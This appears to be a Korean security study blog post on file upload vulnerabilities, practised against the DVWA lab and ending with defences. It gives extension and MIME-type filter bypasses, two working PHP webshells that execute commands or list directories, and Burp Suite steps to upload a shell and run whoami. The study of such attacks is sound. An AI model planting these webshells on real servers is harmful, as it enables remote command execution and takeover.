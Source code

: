 ```yaml
---
layout: post
title: "파일 업로드 취약점 공부"
date: 2025-08-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 최종적으로 서버의 제어권을 획득할 수 있다.

이 공격은 [A04: 안전하지 않은 설계](https://hamap0.github.io/projects/owasp-top-10/2025/08/28/A04_Insecure-Design.html) 프로젝트 보고서에서 다룬 핵심 주제이다.

---

### 2. 주요 우회 기법

단순히 `.php` 파일을 업로드하는 것은 대부분의 필터링에 막히므로 이를 우회하는 기법이 필요하다.

*   **확장자 필터링 우회:**
    서버가 특정 확장자를 블랙리스트 방식으로 필터링할 때 사용된다. `.php` 대신 `.phtml` · `.php3` · `.inc` 등 웹 서버가 PHP로 해석할 수 있는 다른 확장자를 시도하거나 `shell.pHp`처럼 대소문자를 혼용하여 우회를 시도할 수 있다.

*   **MIME 타입 검증 우회:**
    서버가 파일 확장자 대신 HTTP 요청 헤더의 `Content-Type`을 기준으로 파일 종류를 판단할 때 사용된다. 이 값은 클라이언트가 보내는 정보이므로 Burp Suite와 같은 프록시 툴을 이용해 `Content-Type: application/x-php`를 `Content-Type: image/jpeg`와 같이 정상적인 이미지 파일처럼 조작하여 필터링을 우회할 수 있다.


---

### 3. 웹쉘 (Webshell)

웹쉘은 웹 서버를 통해 시스템 명령어를 실행할 수 있도록 만들어진 스크립트 파일이다.

#### **기본 웹쉘**
가장 단순한 형태의 웹쉘은 URL 파라미터를 통해 전달받은 명령어를 그대로 실행하고 결과를 출력한다. `cmd`라는 파라미터로 명령어를 전달받는 예시이다.
```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```
   ![FileuploadWebshell](/assets/images/FUpload_1.png)

#### **개선된 웹쉘 (간이 파일 브라우저)**
조금 더 발전된 형태의 웹쉘은 단순히 명령어를 실행하는 것을 넘어 서버의 파일 시스템을 탐색하는 기능을 포함할 수 있다. 아래 코드는 `path` 파라미터로 전달된 경로의 파일과 디렉터리 목록을 보여주는 간단한 파일 브라우저 역할을 한다.
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  $files = scandir($path);
  
  foreach($files as $file) {
    // 현재 디렉터리(.)와 상위 디렉터리(..) 링크 생성
    if ($file == '.') {
      echo "<a href='?path={$path}'>.</a><br>";
    } elseif ($file == '..') {
      $parent_path = dirname($path);
      echo "<a href='?path={$parent_path}'>..</a><br>";
    } else {
      echo $file . "<br>";
    }
  }
?>
```

---

### 4. 사용 예시: Burp Suite를 이용한 MIME 타입 우회

이 예시는 서버가 `Content-Type` 헤더를 신뢰할 때 발생하는 파일 업로드 취약점을 공격하는 과정을 보여준다.

#### **1. 요청 가로채기 (Intercept)**
1.  `shell.php` 파일을 준비하고 Burp Suite와 브라우저 프록시를 설정한다.
2.  Burp Suite의 `Proxy` > `Intercept` 탭을 `On` 상태로 설정한다.
3.  DVWA의 `File Upload` 페이지에서 `shell.php` 파일을 선택하고 `Upload` 버튼을 클릭하여 요청을 가로챈다.

#### **2. Content-Type 헤더 변조**
1.  가로챈 `POST` 요청 패킷에서 `Content-Type` 헤더를 확인한다. 초기 값은 `application/x-php`로 설정되어 있다.
    ```http
    ...
    Content-Disposition: form-data; name="uploaded"; filename="shell.php"
    Content-Type: application/x-php

    <?php system($_GET['cmd']); ?>
    ...
    ```
2.  `Content-Type: application/x-php` 라인을 `Content-Type: image/jpeg`로 수정한다.
3.  `Forward` 버튼을 눌러 변조된 요청을 서버로 전송한다.

#### **3. 업로드 확인 및 웹쉘 실행**
1.  서버의 필터링 로직이 `Content-Type`만 검증했다면 파일은 정상적으로 업로드되고 저장 경로(예: `../../hackable/uploads/shell.php`)가 출력된다.
2.  브라우저에서 해당 경로에 `?cmd=whoami` 파라미터를 추가하여 접속한다.
3.  화면에 `www-data`가 출력되면 웹쉘 업로드 및 명령어 실행에 성공한 것이다.
   ![FileuploadBurp](/assets/images/Fupload_2.png)

---

### 5. 방어 방안

*   **확장자 화이트리스트:** `.php`, `.jsp` 등 위험한 확장자를 금지하는 블랙리스트 방식 대신 `.jpg` · `.png` · `.gif` 와 같이 허용된 확장자만 업로드할 수 있도록 화이트리스트 방식을 사용해야 한다.
*   **파일 내용 검증:** 확장자나 MIME 타입은 조작될 수 있으므로 `getimagesize()`와 같은 함수를 이용해 파일의 내용이 실제 이미지 데이터인지 검증해야 한다.
*   **업로드 경로 제어:** 업로드된 파일이 저장되는 디렉터리는 웹에서 직접 접근할 수 없는 경로(Web Root 외부)에 위치시키거나 만약 웹에서 접근해야 한다면 해당 디렉터리의 스크립트 실행 권한을 제거해야 한다.

<hr class="short-rule">
